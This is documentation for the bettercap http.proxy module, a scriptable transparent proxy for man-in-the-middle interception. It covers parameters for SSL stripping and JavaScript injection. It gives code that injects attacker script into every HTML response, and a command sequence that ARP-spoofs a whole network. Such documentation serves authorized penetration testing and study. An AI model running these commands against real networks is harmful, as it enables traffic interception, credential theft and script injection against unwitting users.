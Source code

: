 ```yaml
---
title: "http.proxy"
date: 2019-02-25T13:17:05+01:00
draft: false
weight: 4
---
```


A full featured HTTP transparent proxy that can be scripted using javascript modules. If used together with a [spoofer](/modules/ethernet/spoofers/), all HTTP traffic will be redirected to it and it will automatically handle port redirections as needed.

### Commands

#### `http.proxy on`

Start the HTTP proxy.
#### `http.proxy off`

Stop the HTTP proxy.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `http.port` | `80` | HTTP port to redirect when the proxy is activated. |
| `http.proxy.address` | `<interface address>` | Address to bind the HTTP proxy to. |
| `http.proxy.port` | `8080` | Port to bind the HTTP proxy to. |
| `http.proxy.sslstrip` | `false` | Enable or disable SSL stripping. |
| `http.proxy.script` | | Path of a proxy module script. |
| `http.proxy.injectjs` | | URL, path or javascript code to inject into every HTML page. |

### Modules

The `http.proxy` and `https.proxy` modules can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
```

Modules can change the `req` request and `res` response objects, for instance the [web-override.cap caplet](https://github.com/bettercap/caplets/blob/master/web-override.cap) is using the `onRequest` function in order to override every request before it is executed with a fake response:

```js
function onRequest(req, res) {
    res.Status      = 200;
    res.ContentType = "text/html";
    res.Body        = readFile("caplets/www/index.html");
    headers         = res.Headers.split("\r\n")
    for (var i = 0; i < headers.length; i++) {
        header_name = headers[i].replace(/:.*/, "")
        res.RemoveHeader(header_name);
    }
    res.SetHeader("Connection", "close");
}
```

The [login-man-abuse.cap caplet](https://github.com/bettercap/caplets/blob/master/login-man-abuse.cap) instead will use the `onResponse` handler to inject its malicious javascript file in every html response:

```js
function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript">' + "\n" +
                    AbuserJavascript +
                '</script>' +
                '</head>'
            ); 
        }
    }
}
```

#### Builtin Functions

Modules can use the following builtin functions.

| function | description |
|----------|-------------|
| `readDir("/path/")` | Return the contents of a directory as a string array. |
| `readFile("/path/to/file")` | Return the contents of a file as a string. |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")` | Log a message in the interactive session (its level will be `DEBUG`). |
| `log_info("message")` | Log a message in the interactive session (its level will be `INFO`). |
| `log_warn("message")` | Log a message in the interactive session (its level will be `WARNING`). |
| `log_error("message")` | Log a message in the interactive session (its level will be `ERROR`). |
| `log_fatal("message")` | Log a message in the interactive session (its level will be `FATAL`). |
| `log("message")` | Shortcut for `log_info("message")`. |
| `btoa("message")` | Encode a message to base64. |
| `atob("bWVzc2FnZQ==")` | Decode a message from base64. |
| `env("iface.ipv4")` | Read a variable. |
| `env("foo", "bar")` | Set a variable. |

### Examples

Will ARP spoof the whole network, enable sslstrip and inject a "Hello World" javascript alert to every HTML page being visited:

```sh
set http.proxy.injectjs alert("Hello World")
set http.proxy.sslstrip true

http.proxy on
arp.spoof on
```

